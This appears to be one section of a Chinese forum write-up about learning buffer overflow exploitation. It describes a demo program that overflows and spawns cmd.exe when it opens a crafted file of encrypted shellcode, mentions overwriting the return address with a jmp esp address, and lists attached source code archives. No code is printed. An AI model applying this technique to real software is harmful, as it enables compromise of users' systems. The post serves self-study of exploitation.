  
  
**【7】演示程序**  
  
  
接下来的工作就是为了演示方便，特意做了一个窗口程序。我先把得到的一段 shellcode 加密过后的程序机器代码保存到了一个文件中（c:\\command.dat）：  
演示的时候先从命令文件复制出特殊的信息。然后再粘贴到编辑框中。再点击窗口上的一个按钮。  
  
  
**Cmmand.dat 文件中的内容（二进制文件）****演示方法**  

1.  点击生成代码.exe 文件，会在当前目录生成一个 command.dat 的文件。
2.  打开演示程序.exe 文件，菜单中打开上面的测试用的文件，发现一切正常（测试用文件小于 1k）。
3.  打开演示程序.exe 文件，然后打开生成的 command.dat。此时发生溢出。会另外生成一个 cmd.exe 的进程。

  
打开生成的代码的特殊文件就会产生溢出  
  
这一个窗口程序与生成命令的程序用的是同一个 fun（）函数。没有太多的时间，就没有对 fun 函数进行正常化。因为在里面有一个汇编指令专门用来覆盖返回地址的。接下来有时间的时候再把他改成常规的函数。这时命令文件复制到窗口程序的编辑框的时候就要附带加了地址的 shellcode。还有一点不完美的就是 fun 本身对 shellcode.进行解密。下一步要做的工作就是把把解密的 stucode 代码也放到 shellcode 中。且在 shellcode 中还要包含 jmp esp 指令的地址。也就是要覆盖掉原来的返回地址。  
  
把这些做好后就可以加入一些网络通信的东西在里面。溢出攻击就学习得差不多了。  


上传的附件
|  || 演示 2.jpg  
 |
|  || 相关程序.rar  
 |
|  || jmp\_esp 相关.rar  
 |
|  || 源代码.rar  
 |